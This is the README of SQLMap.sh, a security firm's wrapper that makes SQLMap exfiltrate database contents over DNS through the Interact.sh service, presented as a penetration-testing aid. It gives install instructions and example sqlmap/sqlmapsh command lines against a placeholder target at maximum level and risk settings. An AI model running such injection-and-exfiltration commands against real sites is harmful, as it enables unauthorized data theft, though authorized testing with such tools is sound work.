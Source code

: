 # SQLMap.sh

![SQLMap.sh](./pics/sqlmapsh.png)

[![Go Report Card](https://goreportcard.com/badge/github.com/unlock-security/sqlmapsh)](https://goreportcard.com/report/github.com/unlock-security/sqlmapsh)
[![GPLv3 license](https://img.shields.io/badge/License-GPLv3-blue.svg)](https://github.com/unlock-security/sqlmapsh/blob/main/LICENSE)
[![GitHub release (latest by date)](https://img.shields.io/github/v/release/unlock-security/sqlmapsh)](https://github.com/unlock-security/sqlmapsh/releases/latest)
[![Twitter](https://img.shields.io/static/v1?style=flat&logo=twitter&label=Twitter&message=unlock_security&color=blue)](https://www.linkedin.com/company/unlock-security)
[![LinkedIn](https://img.shields.io/static/v1?style=flat&logo=linkedin&label=LinkedIn&message=Unlock+Security&color=blue)](https://www.linkedin.com/company/unlock-security)


SQLMap.sh is a SQLMap wrapper that lets you use Interact.sh as a DNS server for exfiltrating data with zero configuration.

To use the SQLMap `--dns-domain` flag you need to open your port 53 to the internet to let it run its own DNS server and you need a properly configured domain. This is not always possible during a penetration test engagement or maybe you just don't want to buy a domain for this.

SQLMap.sh solves this problem transparently. Just use it as if it is SQLMap and your are done to exfiltrate data via DNS.

## Installation

Run the following command to install the latest version.

```sh
go install github.com/unlock-security/sqlmapsh@latest
```

## Usage

Just replace `sqlmap` with `sudo sqlmapsh` when you want to use SQLMap with data exfiltration via DNS.

> **Note:** SQLMap requires root privileges to perform data exfiltration via DNS because it needs to bind it's own DNS server locally on port 53

For example:

```sh
$ sqlmap -u 'https://www.target.com/page=1' -p page --level=5 --risk=3 --technique=E --banner
```

Become:

```sh
$ sudo sqlmapsh -u 'https://www.target.com/page=1' -p page --level=5 --risk=3 --technique=E --banner
```


## License

[SQLMap.sh](https://github.com/unlock-security/sqlmapsh) is distributed under [GPLv3.0 License](https://github.com/unlock-security/sqlmapsh/blob/main/LICENSE) and made with 💙 by the Unlock Security team.
